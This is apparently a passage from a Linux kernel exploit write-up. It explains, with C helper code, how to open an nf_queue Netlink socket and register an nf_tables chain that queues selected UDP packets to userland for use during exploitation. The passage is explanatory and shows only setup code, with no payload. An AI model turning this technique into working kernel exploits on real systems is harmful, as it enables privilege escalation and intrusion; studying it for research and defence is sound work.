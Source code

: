 ```c
    }

    mnl_socket_setsockopt(nlsock_queue, NETLINK_NO_ENOBUFS, &ret, sizeof(int));

    return ret;
}
```

[1] : Open a Netlink socket to communicate with the `nf_queue` module. Userland receives notifications about queued packets through this socket. It is also used to send a verdict (such as `NF_ACCEPT`, `NF_DROP`, or `NF_REPEAT`) to control what happens to the packet next. \
[2] : The `nf_queue` module supports multiple queues. We select a specific queue (e.g., `QUEUE_NUM`) to use during the entire exploitation process.

**Setup Queue Point**

Use the `queue` expression in `nf_tables` to setup queue point. 

I wrote a function called `setup_nft_queue_with_condition()` to register a chain at the given hook (`hooknum`) and priority (`prio`). The chain contains a rule with a `queue` expression that queues packets to userland:
```c
// Register a chain with a rule that queues packets based on the first byte of their payload
int setup_nft_queue_with_condition(char *chain_name, uint32_t hooknum, uint32_t prio, uint8_t byte_to_compare) {
    chain c = make_chain(base_table, chain_name, 0, hooknum, prio, NULL);

    expr e_payload = make_payload_expr(NFT_PAYLOAD_TRANSPORT_HEADER, UDP_HEADER_SIZE, 1, NFT_REG32_00);
    expr e_cmp = make_cmp_expr(NFT_REG32_00, NFT_CMP_EQ, byte_to_compare);
    expr e_queue = make_queue_expr(QUEUE_NUM, 0, 0);

    expr list_e[3] = {e_payload, e_cmp, e_queue};
    rule r = make_rule(base_table, chain_name, list_e, ARRAY_SIZE(list_e), NULL, 0, 0);

    batch b = batch_init(MNL_SOCKET_BUFFER_SIZE * 2);
    batch_new_chain(b, c, family);
    batch_new_rule(b, r, family);

    return batch_send_and_run_callbacks(b, nlsock, NULL);
}
```

Naturally, we don't want to queue all packets, only specific ones. Others should pass through automatically without notify userspace. To handle this, I added two more expressions before the `queue` expression: `payload` and `cmp`.

Here's how it works: When a packet hits the queue point, the rule extracts the first byte of the packet's payload (using the `payload` expression) and compares it with a target value (`byte_to_compare`) using the `cmp` expression.

- If it matches, the packet is queued to `QUEUE_NUM`.
- If it doesn't, the packet passes through as normal.
